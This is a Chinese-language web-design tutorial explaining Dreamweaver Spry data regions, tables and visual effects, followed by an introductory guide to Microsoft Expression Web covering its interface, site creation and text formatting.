一般情况下，Dreamweaver会在页面中放置一个区域占位符，并显示文本“此处为Spry区域的内容”，用户可以将该占位符替换为Spry数据对象（如表格或重复列表）或者替换为“绑定”面板中的动态数据。

将数据绑定到页面的具体操作如下：
将光标插入点放到Spry区域中的适当位置。

在“绑定”面板中单击加号按钮，展开数据集，选中要添加到Spry区域中的数据列，将它拖放到Spry区域中，该数据列就会添加到Spry区域中。
重复以上操作，可以将多个数据列添加到Spry区域中。
保存网页，然后按F12键浏览效果。

## 4.重复Spry区域

Spry提供了两种设置重复数据的方法：重复区域和重复列表区域。重复区域是一个简单数据结构，用户可以根据需要设置它的格式，以显示数据。重复列表区域可以将数据显示为经过排序的列表、未经排序的（项目符号）列表、定义列表或下拉列表。

### (1)添加Spry重复区域

添加Spry重复区域的具体步骤如下：

- 将光标插入点放到网页中的合适位置。
- 单击“插入记录→Spry→Spry重复项”命令，出现“Spry重复项”对话框（图16）。



在“容器”选项中选择标签的类型：DIV或SPAN，默认值是DIV。

从“类型”选项中选择属性类型，重复或重复子项。“重复子项”选项可以对子级别列表中的每一行执行数据验证，以提高灵活性。一般选择“重复”选项。

从“Spry数据集”下拉列表中选择一个数据集。

如果选定了当前内容，请在“插入”项中选择“环绕选定内容”或“替换选定内容”选项。

单击“确定”按钮，完成设置。

与Spry区域一样，Dreamweaver会在页面中插入一个区域占位符，并且文本“此处为Spry区域的内容”。用户可以将该占位符文本替换为Spry数据对象或者替换为“绑定”面板中的动态数据（如表格或重复列表）。

### (2)添加Spry重复列表区域

创建Spry重复列表区域的具体步骤如下：

- 将光标插入点放到网页中的合适位置。
- 单击“插入记录→Spry→Spry重复列表”命令，打开“插入Spry重复列表”对话框（图17）。



从“容器标签”列表中选择容器标签类型：UL（项目列表）、OL（编号列表）、DL（定义列表）、选择（下拉列表）。

从“Spry数据集”中选择一个数据集。

在“显示列”为选定的标签设置选项。

- 如果选择的是“UL（项目列表）”或“OL（编号列表）”标签，请从显示的列表中选择一个Spry数据列。
- 如果选择的是“DL（定义列表）”，请在“DT列”和“DD列”列表中选择Spry数据列。
- 如果选择的是“选择（下拉列表）”，请在“显示列”和“值列”列表中选择Spry数据列。

单击“确定”按钮，完成设置。

## 5.操作Spry表格

在网页中集成Spry数据最快捷的方法就是使用Spry表格对象。要想使用Spry表格，用户只需创建一个Spry XML数据集，剩下的工作都由Spry表格来完成。使用全功能的Spry表格，不但可以排序列数据，而且可以交互式地更新相关联的Spry详细区域。Spry表格对象也支持CSS以显示CSS样式。

在网页中插入Spry表格的具体操作如下：

- 首先创建一个Spry XML数据集。
- 将光标插入点移到网页中的合适位置。
- 单击“插入→Spry→Spry表格”命令，出现插入“Spry表”对话框（图18）。



从“Spry数据集”列表中选择一个数据集。

在“列”面板中，选择要出现在表格中的列，选中一列，单击减号按钮可以删除它。要想恢复删除的列，单击加号按钮，在弹出的“添加列”对话框中选中要添加的列即可。

选中列，单击向上箭头和向下箭头按钮可以调整列的位置，列表中最高处的列排在表格的最左边。

要定义作为排序依据的列，请在“列”面板中选择它，然后选中“单击标题时将对列排序”选项，对于每个要操作为排序依据的列重复上述操作。

如果给页面设置的有CSS样式，则可以为下面的一个或多个选项选择相应的CSS类：

- 奇数行类：更改奇数行的外观。
- 偶数行类：更改偶数行的外观。
- 悬停类：更改当将鼠标移过上方时行的外观。
- 选择类：更改当单击行时行的外观。

如果要创建简单的Spry表格，请取消选择“单击行时将使用更新详细区域”选项，如果要创建Spry主动表格，请选中该选项。

单击“确定”按钮，在“设计”视图中就可以看到一个表格，表格中包括的每个元素都有一行标题和一行数据引用，并用小括号括起来（图19）。



保存网页，然后按F12键就可以浏览添加的Spry表格。

## 6.应用Spry效果

### 1.Spry效果简介

Spry效果是一组特效，利用它可以给页面上的元素添加一些特殊效果，如向上滑动、渐隐、晃动、放大等效果。Spry效果与普通的Dreamweaver行为类似，都可以在行为面板上显示和操作。不同的是，Spry效果需要一个包含在外部文件的javascript函数支持，当在网页中应用一个Spry效果后，Dreamweaver会自动链接到站点根目录下的Spryassets目录中，Spryeffects.js文件，这个javascript文件用以帮助实现各种Spry效果。注意，在发布网站时，一定要将该文件和所在目录同时上传到网站中，否则就无法实现Spry效果。

Spry效果包括以下几种效果：

- 显示/渐隐：使元素显示或渐隐。
- 高亮颜色：更改元素的背景颜色。
- 向上遮帘/向下遮帘：模拟百叶窗，向上或向下滚动百叶窗来隐藏或显示元素。
- 上滑/下滑：上下移动元素。
- 增大/收缩：使元素变大或变小。
- 晃动：模拟从左向右晃动元素。
- 挤压：使元素从页面的左上角消失。

注意，要向某个元素应用效果时，该元素必须处于选定状态或者它必须具有一个ID。由于这些效果都基于Spry，因此，当用户单击应用了效果的对象时，只有对象会进行动态更新，不会刷新整个HTML页面。

### 2.应用Spry效果

尽管Spry效果有多种，但它们的添加方法都是相同的，不同的只是各种效果的参数设置。添加Spry效果的方法是：首先选中要应用效果的元素，然后打开“行为”面板，添加要应用的行为效果，打开效果设置对话框，设置各种参数，完成效果添加。添加的效果会出现在行为面板中，双击它可以进行编辑。

下面以添加高亮效果为例进行介绍，其他效果仅介绍不同的参数设置。

#### (1)应用高亮效果

高亮效果用于更改元素的背景色，此效果适用于applet、body、frame、frameset 或 noframes 以外的所有 HTML 对象。

添加高亮效果的具体操作如下：

- 选中网页中要应用效果的内容或布局对象，例如选中一个div对象。
- 单击“窗口→行为”命令，打开行为面板。
- 单击行为面板中的加号按钮，从弹出的菜单中选择“效果→高亮颜色”（图20）。



打开“高亮颜色”设置对话框（图21），进行参数设置。



- 从“目标元素”下拉菜单中选择某个对象的ID，如果已经选择了一个对象，请选择“当前选定内容”。
- 在“效果持续时间”框中，定义效果持续的时间，用毫秒表示。
- 单击“起始颜色”右边的颜色定义按钮，选择开始高亮显示的颜色。
- 单击“结束颜色”右边的颜色定义按钮，选择结束高亮显示的颜色。此效果持续的时间为在“效果持续时间”中定义的时间。
- 单击“应用效果后的颜色”右边的颜色定义按钮，选择该对象在完成高亮显示之后的颜色。
- 如果希望该效果是可逆的，即通过连续单击来循环使用高亮颜色，请选中“切换效果”选项。

单击“确定”按钮，在行为面板中可以显示添加的效果，程序默认的事件是鼠标单击（onclick）时显示效果，可以单击onclick列，在下拉列表中选择其他事件。选中效果，单击减号按钮可以删除添加的效果。

单击“文件→保存”命令，保存网页，然后按F12键预览网页，将鼠标移到设置效果的网页内容上单击，即可看到高亮效果。

#### (2)应用显示/渐隐效果

这个效果适用于除applet、body、iframe、object、tr、tbody 或 th 以外的所有 HTML 对象。

显示/渐隐效果参数设置如下：

- 目标元素：选中某个对象ID或“当前选定内容”。
- 效果持续时间：定义效果持续的时间，以毫秒为单位。
- 效果：从下拉菜单中选择“渐隐”或“显示”。
- 渐隐自：定义显示此效果所需的不透明度百分比。
- 渐隐到：定义要渐隐到的不透明度百分比。
- 切换效果：选中该选项表示连续单击可从“渐隐”转换为“显示”，或从“显示”转换为“渐隐”。

#### (3)应用增大/收缩效果

这个效果适用于下列HTML对象：address、dd、div、dl、dt、form、p、ol、ul、applet、center、dir、menu 或 pre。

增大/收缩效果参数设置如下：

- 目标元素：选中某个对象ID或“当前选定内容”。
- 效果持续时间：定义效果持续的时间，以毫秒为单位。
- 效果：从下拉菜单中选择“收缩”或“增大”。
- 增大自/收缩自：定义对象在效果开始时的大小，该值为百分比大小或像素值。
- 增大到/收缩到：定义对象在效果结束时的大小，该值为百分比大小或像素值。
- 如果为“增大自/收缩自”或“增大到/收缩到”选择像素值，“宽/高”域就会出现。元素将根据选择的选项相应地增大或收缩，在下面的“收缩到/增大自”下拉菜单中选择收缩或增大到页面的左上角还是居中。
- 选中“切换效果”选项，在连续单击时可增大或收缩选定内容。

#### (4)应用滑动效果

这个效果适用于下列HTML对象：blockquote、dd、div、form 或 center。滑动效果要求在要滑动的内容周围有一个<div>标签。

滑动效果参数设置如下：

- 目标元素：选中某个对象ID或“当前选定内容”。
- 效果持续时间：定义效果持续的时间，以毫秒为单位。
- 效果：从下拉菜单中选择“上滑”或“下滑”。
- 上滑自/下滑自：以百分比或像素值形式定义起始滑动点。
- 上滑到/下滑到：以百分比或像素值形式定义结束滑动点。
- 切换效果：选中此选项可以通过连续单击上下滑动。

#### (5)应用遮帘效果

这个效果适用于下列HTML对象：address、dd、div、dl、dt、form、h1.h2、h3、h4、h5、h6、p、ol、ul、li、applet、center、dir、menu 或 pre。

遮帘效果参数设置如下：

- 目标元素：选中某个对象ID或“当前选定内容”。
- 效果持续时间：定义效果持续的时间，以毫秒为单位。
- 效果：从下拉菜单中选择“向上遮帘”或“向下遮帘”效果。
- 向上遮帘自/向下遮帘自：以百分比或像素值形式定义遮帘的起始滚动点。这些值是从对象的顶部开始计算的。
- 向上遮帘到/向下遮帘到：以百分比或像素值形式定义遮帘的结束滚动点。这些值是从对象的顶部开始计算的。
- 切换效果：选中此选项时连续单击可上下滚动。

#### (6)应用挤压效果

这个效果适用于下列HTML对象：address、dd、div、dl、dt、form、img、p、ol、ul、applet、center、dir、menu 或 pre。

这个效果参数设置中只有一个“目标元素”，选中某个对象的ID或“当前选定内容”即可。

#### (7)应用晃动效果

这个效果适用于下列HTML对象：address、blockquote、dd、div、dl、dt、fieldset、form、h1、h2、h3、h4、h5、h6、iframe、img、object、p、ol、ul、li、applet、dir、hr、menu、pre 或 table。

这个效果参数设置中也只有一个“目标元素”，选中某个对象的ID或“当前选定内容”即可。

注意：在一个选定内容上可以应用多个效果，在“行为”面板上可以通过单击“增加事件值”和“降低事件值”按钮来调整效果的顺序。

### 微软全新网页设计工具 Expression Web快速入门

◆文/张金贵

为了与Adobe的Dreamweaver竞争，微软于今年初正式发布一款全新的网页设计工具Expression Web，它是微软Expression设计套装的一部分，作为网页设计工具FrontPage的替代品，Expression Web在功能以及可扩展性方面都有了很大提升，它彻底解决了以前FrontPage会产生不标准网页代码的问题，现在用Expression Web可以创建完全符合标准的网站，同时支持最新的CSS和层，具有强大的CSS功能，Expression Web支持ASP.NET 2.0和XML，具有强大的数据库操作功能。通过这些新特性，Expression Web摆脱了以前FrontPage给设计人员造成的一种“玩具”印象，逐步走进了专业网页设计人员的视野，相信通过微软的努力，在未来的Web开发市场上，Expression Web必将大有可为。

#### 一、概述

##### 1. 功能特色

(1) 支持Vista操作系统
作为一款最新的网页设计工具，Expression Web保持了一定的超前性，它支持最新的Windows Vista操作系统。Expression Web采用了与Vista统一的界面设计，无论是安装程序，还是程序主界面，都是Vista化的，这让Vista用户感到非常舒服，同时也减少了用户由于升级操作系统而带来的损失。

(2) 创建符合标准的网站
原来的FrontPage由于生成的网页中包含许多垃圾代码而被专业人员所抛弃，Expression Web彻底改变了这种状况，它支持HTML、XHTML、Strict、Transitional、Frameset和CSS1.0/2.0/2.1等多种标准，Expression Web默认将创建符合CSS2.1和XHTML1.0 Transitional标准的网站，用户可以根据需要灵活选择要使用标准，Expression Web通过自带的兼容性报告验证工具，会自动判断网页代码是否符合标准，不符合的会标识出来，并且会显示原因，这样就保证了Expression Web生成的网页百分之百符合标准，而且不包含垃圾代码。

(3) 支持CSS
CSS已经成为Expression Web的核心功能之一，Expression Web对于CSS的支持大大加强，新增的“CSS属性”任务窗格提供了非常丰富的参数设置，“应用样式”和“管理样式”任务窗格则为创建和管理样式提供了极大的方便。通过复杂的CSS设计功能，用户可以精确地控制版面设置和格式，产生美观、现代的CSS页面设置，现在使用Expression Web也可以轻松完成复杂的CSS+DIV页面布局。

(4) 丰富的数据显示
Expression Web支持符合业界标准的XML文档，通过使用强大的所见即所得的XSLT设计工具，Expression Web可以直接创建XML文档，从“数据源库”拖放XML文档到网页中，就可以浏览XML文档数据，并且可以用XPath表达式产生结构复杂的XPath查询。除XML之外，Expression Web还支持Access、SQL、站台地图等数据库，为创建动态网页提供了方便。在“数据视图”中还可以使用CSS样式表，以使网站保持统一的外观样式。

(5) 支持ASP.NET 2.0服务器技术
ASP.NET 2.0是Web应用程序开发的一种核心技术，是.NET Framework的一部分，Expression Web通过丰富的ASP.NET控件和服务器支持，用户可以轻松、快捷地创建动态、交互式的ASP.NET网页。使用工具箱、属性任务窗格和动作菜单，可以快速地插入和设置ASP.NET控件。使用母版页不但可以统一网站的布局，而且可以快速地开发和更新网站，提高网站开发的效率。

##### 2. 系统要求

Expression Web支持的操作系统有：Windows Server 2003 SP1、Windows XP SP2、Windows Vista。

Expression Web需要Microsoft.NET Framework 2.0的支持，在安装Expression Web之前，需要先安装Microsoft.NET Framework 2.0，它可以从微软网站免费下载。

##### 3. 界面介绍

安装完Expression Web后，启动它，就可以打开该程序。我们可以看到除了Windows程序常见的菜单栏、工具栏、状态栏外，程序的中间是一个编辑窗口，编辑窗口的两边有多个任务窗格，这些浮动的任务窗格为编辑网页提供了很大的方便，下面我们就来了解这些组成部分（图1）。



菜单栏：位于窗口的上部，包括了操作Expression Web的所有命令，单击菜单可以选择不同的命令，有的菜单还包括子菜单。Expression Web菜单包括“文件、编辑、视图、插入、格式、工具、表格、网站、数据视图、任务窗格、窗口、帮助”12个。在下面的介绍中我们会逐渐接触到各个菜单的用法。

工具栏：位于菜单栏下部，包括了一些常用的工具按钮，默认情况下显示的是“通用”的工具按钮。用户可以根据需要让其他的工具按钮显示出来，方法是，右键在工具栏上单击，在弹出的快捷菜单中选择要显示的工具栏选项即可，工具栏的种类有“常用”、“格式”、“表格”、“代码视图”、“定位”、“通用”、“动态Web模板”、“母版页”、“图片”、“样式”、“样式应用程序”11种，选择“自定义”选项还可以自定义工具栏。

状态栏：位于窗口的最下部，用于显示当前编辑模式的信息，如视觉帮助模式、样式应用程序模式、呈现模式和网页大小，以及正在编辑的文件的信息，如文件大小，HTML架构和CSS架构，在相应的部分单击或双击就可以打开相应的选项进行编辑。

编辑窗口：这是进行网页编辑的地方，它占据了程序中间很大的空间，所有的网页编辑操作都是在这个窗口中完成的。编辑窗口可以同时打开多个网页，多个网页页将以选项卡的形式显示在编辑窗口顶部，以方便用户切换。在选项卡的下部是快速标记选择器栏，HTML标记以嵌套顺序显示在此栏中，单击一个标记，就可以在编辑区将其内容选中。在编辑窗口的下部是网页视图切换栏，Expression Web有三种视图用来编辑网页，即设计、拆分和代码，单击不同的标签就可以切换到相应的视图模式中。

设计视图：以所见即所得的方式设计和编辑网页，这是最常用的一种视图模式。

拆分视图：把编辑窗口分成上下两部分，上面显示网页代码，下面显示设计效果，也就是说在拆分视图模式下可以同时访问代码视图和设计视图。

代码视图：显示网页的源代码，用户可以自己查看，编写HTML标记。

任务窗格：Expression Web设计了多个任务窗格，帮助用户方便地使用各种网页编辑工具，所有这些任务窗格都可以在“任务窗格”菜单中找到。用户可以根据需要打开多个任务窗格，并且更改任务窗格的位置和大小。默认情况下打开Expression Web时，会显示“文件夹列表”、“标记属性”、“应用样式”和“工具箱”任务窗格。

文件夹列表：用来显示网站的结构和文件目录，位于编辑窗口的左上方。

标记属性：用来设置HTML标记的属性值，位于编辑窗口的左下方。

工具箱：包含HTML元素，表单控件和ASP.NET控件，位于编辑窗口的右上方。

应用样式：用于建立和管理样式表，位于编辑窗口的右下方。

#### 二、建立网站

Expression Web是一个强大的网页编辑和网站设计工具，在编辑具体的网页之前，我们首先要对自己的网站有一个总体的规划，设计网站的结构，然后再进行具体的网页编辑操作。在网站规划方面，我们既可以自己手工操作，也可以用Expression Web提供的模板来自动创建。

##### 1. 建立普通站点

单击“文件→新建→网站”命令，打开“新建”网站对话框（图2），在左边的窗口中选择“常规”，在右边的窗口中显示出要创建的网站类型。

只有一个网页的网站：创建只有一个单独的空白网页的新网站。

空白网站：创建一个没有内容的新网站。

单击“指定新网站的位置”右边的“浏览”按钮，可以选择网站保存的位置，最后单击“确定”按钮，一个新网站就建立好了。



##### 2. 使用导入向导建立站点

这种方式可以创建一个网站，并将一个已建立的网站或某个文件（目录）导入到当前网站中，它采用向导式的操作，一步步引导用户完成网站的创建。

单击“文件→新建→网站”命令，打开“新建”网站对话框，在左边窗口中选择“常规”，在右边窗口中选择“网站导入向导”，然后单击“浏览”按钮，选择新网站的位置；单击“确定”按钮，出现“导入网站向导”对话框，用户可以选择导入文件的方式，有Http、Ftp、WebDAV、FrontPage Server Extensions、文件系统五种方式，这里我们选择从本机上导入文件，所以选择“文件系统”，然后单击“浏览”按钮选择要导入的文件目录，单击两次“进一步”按钮，最后单击“完成”，出现“本地网站”和“远程网站”窗口，单击“远程网站”下部的“发布网站”按钮，将远程网站中的文件发布到本地网站中，在“文件夹列表”中就可以看到导入的文件内容。

##### 3. 使用模板建立站点

Expression Web内置了多种站点模板，用户可以非常方便地用它创建一个自己需要的网站。

单击“文件→新建→网站”命令，打开“新建”网站对话框，在左边窗口中选择“模板”，在右边窗口中列出了模板网站的类型，有个人、单位、小型企业，选中某种类型，就可以在右边的预览区查看它的外观样式，单击“浏览”按钮，选择网站保存的位置，然后单击“确定”按钮，一个新网站就建好了。对模板中的各个页面适当修改就可以变成自己的网站，非常简单。如果用户创建的是单位或个人的小型站点，用这种方法最方便快捷。

##### 4. 网站管理

(1) 打开网站
如果想打开一个网站，可以单击“文件→打开网站”命令，打开“打开网站”对话框，查找你需要打开的网站，单击“打开”按钮即可。

(2) 关闭网站
单击“文件→关闭网站”命令，可以将当前打开的网站关闭。

(3) 重命名网站
单击“网站→网站设置”命令，打开“网站设置”对话框，在“网站名称”文字框中输入新的网站名称，然后单击“确定”按钮即可。

(4) 删除网站
在“文件夹列表”任务窗格中右键单击网站，在弹出的快捷菜单中选择“删除”命令，出现“确认删除”窗口，直接单击“确定”按钮。

#### 三、编辑网页

一个网站是由许多网页组成的，浏览网站实际上就是浏览一个个的网页，网页中包含文字、图像、超链接等内容，所以编辑好网页是建立网站最基本的操作。

##### 1. 基本文件操作

(1) 创建新网页
单击“文件→新建→网页”命令，打开“新建”对话框（图3），Expression Web可以创建“常规”、“ASP.NET”、“CSS布局”、“样式表”、“框架网页”4种类型的文件，每种文件又包含很多种类型，在左边的窗口中选中一种类型，在中间的窗口中列出详细的分类，右边的窗口是预览区，可以预览一些网页的外观样式，选中要创建的网页类型，单击“确定”按钮即可。一般常用的文档类型在“常规”分类中都可以找到。



另外，单击工具栏“新建文档”右边的下拉按钮，在弹出菜单中选择“网页”选项，也可以打开“新建”对话框，当然也可以直接在弹出的菜单中选择要创建的网页类型，如HTML、ASPX、CSS。

(2) 打开网页
单击“文件→打开”命令或双击“文件夹列表”任务窗格中的网页，即可打开相应的网页。

(3) 重命名网页
在“文件夹列表”任务窗格中，右键单击要重命名的网页文件，在弹出的快捷菜单中选择“重命名”命令，此时文件名变为可编辑状态，输入新的文件名后按回车键即可。或者右键单击文件，在弹出的菜单中选择“重命名”命令，然后输入新名称。

(4) 保存网页
单击“文件→保存”命令或工具栏上的“保存”按钮，可以将网页保存到当前网站中，如果要将网页保存到其他位置或用不同的名称保存网页，可以单击“文件→另存为”命令。

(5) 预览网页
可以通过以下方法随时预览编辑的网页，注意在预览前一定要先保存网页。

- 方法一：单击“文件→在浏览器中预览”命令，然后在展开的子菜单中选择浏览器和窗口大小。
- 方法二：单击工具栏中的“预览”按钮，或者单击按钮旁的箭头，在下拉框中选择浏览器和窗口大小。
- 方法三：直接按F12键。

对于ASP.NET网页，在预览时，Expression Web会自动启动Microsoft ASP.NET Development Server服务器来浏览网页，给用户带来了很大方便。

##### 2. 文本编辑

文字内容是一个网页中使用最多的元素，对它的编辑排版方法也多种多样，灵活使用这些方法可以让网页排版变得更美观。

(1) 文本格式

1) 使用内置的文本格式
在网页中的文本内容有几种既定格式，每种格式对应其默认的字号和段落对齐方式等属性值，这是HTML语言中的规定。在网页中选中要设置格式的文本，然后单击工具栏中“样式”框右边的箭头，在出现的下拉菜单中选择一种格式，这几种内置的文本格式有：

标题1～6、段落、未经排序的列表、经过排序的列表、定义的术语、定义、地址、预设格式、块引用等。

2) 自定义文本格式
选中文本，单击格式字体命令，打开“字体”设置对话框，在“字体”选项卡中可以设置字体、字体样式、大小、颜色，以及特殊效果的字体，并且可以在“预览”区浏览设置的效果。

更方便的方法是：直接单击工具栏中的相应按钮设置字体的各种属性，如字体、字号、样式、颜色等。

(2) 文本的对齐与缩进

1) 对齐方式
对齐方式是指多个文本行之间的对齐，包括左对齐、居中、右对齐、两端对齐几种。要改变文本行的对齐方式，先要选中多行文字，然后单击工具栏中的对齐方式按钮或者单击格式段落命令，打开“段落”对话框，单击“对齐方式”框中的箭头，在下拉列表框中选择一种对齐方式。

2) 文字缩进
在文字排版过程中，一般采用首行缩进的格式，有时为使版面美观，也会使文字呈梯形样排版，这时就要用到缩进排版功能了。

按照预设值增大或减小缩进量：这种方法将按程序内置的固定值来增加或缩小缩进量，在网页中选中一个或多个段落，然后单击工具栏中的“增大缩进量”或“减少缩进量”按钮来增大或缩小缩进量。也可以按Tab键增大缩进量，按Shift+Tab键减小缩进量。

自定义缩进量：这种方法可以让用户根据自己的需要灵活设置首行缩进量或者段落左边和右边的缩进量，具体操作是：在网页中选中一个或多个段落，单击“格式→段落”命令，打开“段落”设置对话框，在“首行缩进”“左边”、“右边”框中输入缩进的数值，单位为像素。

(3) 文本间距

1) 设置字符间距
在网页中选中文本，单击“格式→字体”命令，打开“字体”对话框，选择“字符间距”选项卡，在“间距”框中，单击箭头选择“加宽”（增加字符间距）或“紧缩”（减小字符间距），然后在“间距大小”框中输入数字（以点为单位）即可。

2) 设置单词、行或段落之间的间距
在网页中选中一个或多个段落，单击“格式→段落”命令，打开“段落”对话框，在“间距”之下，可以进行以下设置：

在“段前”、“段后”或“单字间距”框中输入数值（以像素为单位），其中“段前”用于设置段落上方的间距，“段后”用于设置段落下方的间距，“单字间距”用于设置单词之间的间距。若要设置行之间的间距，请单击“行距大小”旁边的箭头，在下拉列表中选择一个选项。

(4) 粘贴文本
Expression Web可以直接将其他文档中的文本复制粘贴到当前网页中，粘贴的方法有保留原始文本的格式、删除格式以及控制换行符等，用户可以根据需要灵活选用。

粘贴文本的具体操作如下：

1) 从其他程序中（如Word）复制或剪切要粘贴的文本。
2) 在Expression Web中打开要在其中粘贴文本的网页，将光标移到要显示该文本的位置，然后进行以下操作：

若要粘贴文本并控制文本的样式，可以单击“编辑→粘贴”命令或直接单击常用工具栏中的“粘贴”按钮，在网页中会显示“粘贴选项”按钮，单击该按钮，弹出选项菜单（图4），用户可以根据需要选择粘贴的方式。



图4

匹配目标格式：当源文档包含的样式与目标文档中的样式同名时，通过此项可以使用目标文档中的样式，而不是源文档中的样式。

保留源格式：保留源文档样式中的格式，而不管Expression Web文档中的样式。

删除格式：删除所有格式，以纯文本的形式进行粘贴。

仅保留HTML：使Expression Web呈现HTML内容，而不是显示HTML标记。

仅保留文本：删除所有格式，以纯文本的形式粘贴所选内容，并且设置“粘贴文本”对话框中的选项以控制换行符和空格。

若要将文本粘贴为纯文本并设置选项来控制换行符和空格，可以单击“编辑→粘贴文本”命令，在弹出的“粘贴文本”对话框中进行选择。

纯文本：删除所有格式、将换行符替换为空格，并且以纯文本的形式粘贴所选内容。

一个使用 <pre> 设置格式的段落：将文本粘贴到一对预设格式的文本标记（<pre></pre>）中，并保留文本中的所有换行符。

多个使用 <pre> 设置格式的段落：将每一段文本粘贴到一对预设格式的文本标记（<pre></pre>）中，并保留原始文本中的所有换行符。

带换行符的普通段落：将文本粘贴到一对段落标记（<p></p>）中，并在原始文本中出现换行符的位置插入换行符标记（<br>）。

不带换行符的普通段落：将文本粘贴到一对段落标记（<p></p>）中并删除所有换行符。

(5) 换行与段落
在输入文字时，如果一行的长度超过屏幕的显示范围，Expression Web将会自动换行，不需使用其他按键换行。如果想给文字区分段落，在需要分段的位置按回车键就可以另起一行。

如果只是想将文字换行，而不想另起一个段落，只需按Shift + Enter键，或者单击“插入→HTML→换行符”命令即可实现。当使用“换行符”命令时，会弹出一个“换行符”对话框，有四种选择：

普通换行符：创建默认的换行符。

清除左边距：将在紧临设有左边距的任意项的下方新起下一行。

清除右边距：将在紧临设有右边距的任意项的下方新起下一行。

清除左右边距：将在紧临设有左右边距的任意项的下方新起下一行。

根据需要选择一个选项，然后单击“确定”按钮。

(6) 插入特殊符号
除了文字输入，Web还提供了一个专门的“符号”对话框，用来帮助大家输入一些特殊的符号，如货币符号、度符号、版权符号等。具体操作是：将光标移到网页中要插入特殊符号的位置，单击“插入→符号”命令，打开“符号”对话框，单击“子集”右边的箭头，在下拉列表框中选择符号的种类，然后在显示表中单击要插入的符号，单击“插入”按钮，即可将选择的特殊符号插入到网页中，重复以上操作，可以将多个特殊符号插入到网页中，最后单击“关闭”按钮关闭对话框。

(7) 插入水平线

1) 插入水平线
利用水平线可以使页面段落的区分更鲜明，插入水平线的方法是：将光标移到要插入水平线的位置，单击“插入→HTML→水平线”命令，就可以在插入点位置出现一条水平线。

2) 设置水平线属性
Expression Web默认的水平线样式有时不能满足需要，用户可以随时进行更改，方法是：双击要修改的水平线，出现“水平线属性”对话框，可以设置水平线的高度、宽度、颜色、对齐方式以及有无阴影，其中宽度可以选择以“窗口宽度百分比”或“像素”为单位，高度是以像素为单位，设置完毕，单击“确定”按钮。

(8) 插入文件
Expression Web可以直接将HTML、TXT、RTF、DOC等文件直接插入到当前网页中，从而提高网页的编辑效率。插入的方法是：单击“插入→文件”命令，在打开的“选择文件”对话框中选中要插入的文件，然后单击“打开”按钮，即可将文件插入到当前网页中。

(9) 项目符号和编号列表
利用项目符号和编号列表可以使网页排版更美观，也更易于阅读和理解。

1) 创建项目符号和编号列表
利用工具栏中的“编号”和“项目符号”按钮可以快速地创建项目符号和编号列表。具体操作是：将光标移到要创建列表的位置，单击工具栏中的“编号”或“项目符号”按钮，然后在网页中输入文本内容，每一项列表内容输入一行，然后按回车键，程序会自动添加编号或项目符号，然后继续输入内容，再回车，重复以上操作，直至所有列表内容全部输入完毕，输入最后一项之后，请按两次回车键结束列表的输入。

在输入列表时，如果要增加或减少一个或多个列表项的缩进量，可以将光标移到该列表项中，或者选择一个或多个列表项，再单击工具栏上的“增加缩进量”或“减少缩进量”按钮。

2) 更改项目符号样式
利用上述方法创建的项目符号是使用程序默认的样式，事实上Expression Web内置了多种项目符号样式，有实心圆点、空心圆点、实心正方形几种，用户可以根据需要灵活选用。方法是：将光标移到已创建的列表中，单击“格式→项目符号和编号”命令，打开“列表属性”对话框，在“无格式项目符号”选项卡中选中一款样式，单击“确定”按钮。

3) 更改编号样式
Expression Web内置了阿拉伯数字、罗马数字、大小写英文字母几种编号样式，程序默认的是使用阿拉伯数字，用户可以用以下方法进行更改：首先将光标移到已建立的列表中，然后单击“格式→项目符号和编号”命令，打开“列表属性”对话框，在“编号”选项卡中选择一种样式，在“起始编号”框中输入起始编号数，单击“确定”按钮。

4) 创建图片项目符号
Expression Web允许用户使用自己喜欢的图片作为项目符号，从而创建更加丰富多彩的页面。具体操作如下：将光标移到要创建列表的位置，单击“格式→项目符号和编号”命令，在打开的“项目符号”和“编号”对话框中，选择“图片项目符号”选项卡，在“图片”之下，选择“使用当前CSS样式”以使用CSS样式所指定的图像，或者选择“指定图片”以选择图片。如果选择了“指定图片”，请单击“浏览”按钮，选择一个图片，单击“打开”，再单击“确定”，一个以自定义图片创建的列表就建立好了。

5) 创建定义列表
对于术语和定义这种内容，Expression Web专门提供了一种定义列表来显示它。使用定义列表时，术语一般靠左显示，并且以缩进格式显示术语的定义。创建定义列表的步骤如下：首先将光标移到要创建定义列表的位置，然后单击“格式→项目符号和编号”命令，在“项目符号和编号”对话框中，单击“其他”选项卡，在“列表样式”之下，单击“定义列表”，再单击“确定”。在网页中输入第一个术语，按回车键，下一行将自动使用“定义”样式所设置的格式，接着输入术语的定义，重复以上步骤，继续输入其他术语和定义，在结束列表编辑时，按两次回车键即可。

6) 删除列表格式
如果想删除创建的列表格式，可以通过以下两种方法来完成。

- 方法一：将光标移到列表项所在的文件或者选择一个或多个列表项，然后单击工具栏中的“编号”或“项目符号”按钮。
- 方法二：首先将光标移到列表项所在行中或者选择一个或多个列表项，然后单击“格式→项目符号和编号”命令，打开“项目符号和编号”对话框，进行如下操作：对于项目符号列表，请在“无格式项目符号”选项卡上，单击不包含项目符号的框。对于编号列表，请在“编号”选项卡上，单击不包含编号的框。对于使用自定义图片项目符号的列表，请在“图片项目符号”选项卡的“指定图片”框中，清除所有字符。

(10) 使用描摹图像
在设计网页时，可以用一幅图像作为背景参照，根据它来设计网页，这个图像就称为“描摹图像”。描摹图像只是设计网页时的一个参照物，在浏览网页时它并不会显示出来，用作为描摹图像的可以是JPEG、GIF、PNG或BMP格式的图像。

1) 向网页中添加描摹图像
首先准备好要作为描摹图像的图像，图像可以用图像设计工具设计，然后单击“视图→描摹图像→设置”命令，打开“描摹图像”对话框，单击“浏览”按钮选择图像，拖动下面的滑杆可以调节图像的透明度，在X和Y框中输入数值可以确定图像左上角的坐标，最后单击“确定”按钮，描摹图像就出现在网页中，然后就可以根据它来排版网页内容。

2) 关闭描摹图像
当在网页中应用了描摹图像后，可以单击“视图→描摹图像→显示图像”命令来取消它。

(11) 设置网页属性
单击“文件→属性”命令，打开“网页属性”对话框，在此可以设置网页的各种属性。

- “常规”选项卡：可以设置网页的“标题”、“网页说明”、“关键字”等信息，单击“背景音乐”右边的“浏览”按钮，可以给网页添加背景音乐，音乐的格式可以是WAV、MIDI、RA、AIFF、AU。
- “格式”选项卡：可以设置网页的背景色、背景图片以及文本和超链接的颜色。
在“背景”下，选中“背景图片”，然后单击“浏览”按钮，选择一个GIF、JPEG、PNG或BMP图像作为背景图片。
在“颜色”下，单击“背景”、“文本”和“超链接”右边的下拉箭头可以设置网页背景色以及文本和超链接的颜色。
- “高级”选项卡：可以设置网页的## 12. 显示标尺和网格
